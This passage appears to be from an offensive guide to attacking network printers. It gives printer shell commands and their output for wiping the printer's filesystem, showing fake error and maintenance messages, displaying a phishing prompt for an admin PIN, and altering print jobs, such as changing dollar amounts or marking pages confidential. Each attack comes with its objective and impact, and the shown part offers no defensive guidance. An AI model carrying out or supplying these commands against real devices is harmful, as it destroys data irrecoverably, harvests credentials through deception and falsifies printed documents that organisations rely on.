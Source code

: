 ### Attack 7.2: Filesystem Destruction

**⚠️⚠️ DESTRUCTIVE ⚠️⚠️**

**Objective**: Erase all printer data

```bash
# Format filesystem
> format

This will format the printer's file system!
Are you sure? (yes/no): yes

File system formatted
[All data erased]
```

**Impact**:
- All files deleted
- Configuration lost
- Cannot be recovered
- Printer may need firmware reload

---

## 🎭 Social Engineering

### Attack 8.1: Fake Messages

**Objective**: Display misleading messages

```bash
# Fake error messages
> display "CRITICAL ERROR - CALL IT SUPPORT"
> display "FIRMWARE UPDATE REQUIRED - DO NOT USE"

# Fake maintenance messages
> offline "Scheduled Maintenance - Back at 5 PM"
> offline "Printer Reserved for Executive Use Only"

# Phishing messages
> display "Enter Admin PIN: ____ to Continue"
```

**Impact**: User confusion, credential phishing

---

### Attack 8.2: Print Job Manipulation

**Objective**: Modify printed output

```bash
# Add watermark
> cross "CONFIDENTIAL - FOR YOUR EYES ONLY"

# Replace content
> replace "Public" "Confidential"
> replace "$100" "$1,000"

# Add overlay
> overlay company_logo.eps
```

